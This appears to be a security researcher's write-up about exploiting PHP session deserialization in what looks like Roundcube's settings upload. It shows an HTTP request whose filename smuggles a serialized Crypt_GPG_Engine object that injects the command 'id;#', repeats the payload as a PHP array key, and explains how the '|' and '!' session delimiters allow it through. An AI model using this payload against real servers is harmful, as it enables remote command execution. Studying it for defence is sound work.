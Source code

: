 ```js
POST /?_task=settings&_framed=1&_remote=1&_from=edit-!identity&_id=&_uploadid=upload1749642336188&_unlock=loading1749642336189&_action=upload HTTP/1.1
....
STUFF
......
Content-Disposition: form-data; name="_file[]"; filename="|s:1:\"a\";0|O:16:\"Crypt_GPG_Engine\":1:{s:8:\"_gpgconf\";s:4:\"id;#\";}"
```
And look at the logs of server : 

![image](https://hackmd.io/_uploads/HJ3ubgD7xg.png)

# Question  :
### Why we cant put payload into the key ? 
If you test this local , it will work !!
```php
$data = [
    '!identity xxx|| b:0;test|O:16:"Crypt_GPG_Engine":1:{s:8:"_gpgconf";s:4:"id;#";}' => 'PWNED2',
];
--> This work the same
```
But when tries on the server it will fail due to some restrictions.
After reading the documents I finally finds the problem.
![image](https://hackmd.io/_uploads/BJsBNZvXeg.png)

And my current app is implementing a custom session handler : 
```php
        ini_set('session.serialize_handler', 'php'); => Not allow the "!" and "|"
        // set custom functions for PHP session management
        session_set_save_handler(
            [$this, 'open'],
            [$this, 'close'],
            [$this, 'read'],
            [$this, 'sess_write'],
            [$this, 'destroy'],
            [$this, 'gc']
        );
```
- It seems the "|" and "!" is not allowed in $_SESSION.
### So why the heck the "!" in our payload still works...
In the legacy php session serialization format, both | and ! are special delimiters:
 These key STILL BE **WRITED** in $_SESSION but not **STORED**
"|" separates the session variable name from its serialized value
```php
user|s:5:"alice";roles|a:2:{i:0;s:5:"admin";i:1;s:6:"editor";}
```
==> This is not stored into $_SESSION and NOT give sess_write any data to write into db .

"!" is used in php_binary (another legacy format), but not usually in plain php format
```php
\0user!s:5:"alice";\0roles!a:2:{i:0;s:5:"admin";i:1;s:6:"editor";}
```
==> This just not stored into $_SESSION but **still give data for sess_write :)) wtf**
